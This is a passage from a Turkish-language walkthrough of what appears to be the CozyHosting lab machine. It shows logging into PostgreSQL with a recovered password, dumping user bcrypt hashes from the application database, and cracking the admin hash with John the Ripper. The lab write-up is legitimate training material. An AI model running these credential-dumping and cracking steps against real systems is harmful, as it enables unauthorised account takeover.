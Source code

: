 Bulunan kimlik bilgilerini kullanarak PostgreSQL ile etkileşime geçtim (parola sorulduğunda `Vg&nvzAQ7XxR` değerini girdim):

```bash
psql -U postgres -W -h localhost
```

PostgreSQL içinde mevcut olan veri tabanlarını görüntüledim:

```text
\list
```

```text title="Output" hl_lines="4"
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/pos
```

Bu sonuçlardan `cozyhosting` veri tabanını seçtim:

```text
\connect cozyhosting
```

Aşağıdaki sorgu ile kullanıcılara ait kullanıcı adı ve parola bilgisini ele geçirdim:

```sql
SELECT name,password FROM users;
```

```text title="Output" hl_lines="4"
   name    |                           password
-----------+--------------------------------------------------------------
 kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim
 admin     | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
(2 rows)
```

Hash dizesinden parolayı elde etmek için John the Ripper aracını kullandım. Öncesinde bu hash dizesini bir dosyaya kaydettim:

```bash
echo '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash.txt
```

John aracını aşağıdaki şekilde kullandım:

```bash
john -w=/usr/share/wordlists/rockyou.txt hash.txt
```

```text title="Output" hl_lines="6"
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)  ========================================================================================================================>>>
1g 0:00:00:34 DONE (2024-01-13 23:59) 0.02864g/s 80.43p/s 80.43c/s 80.43C/s onlyme..keyboard
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```
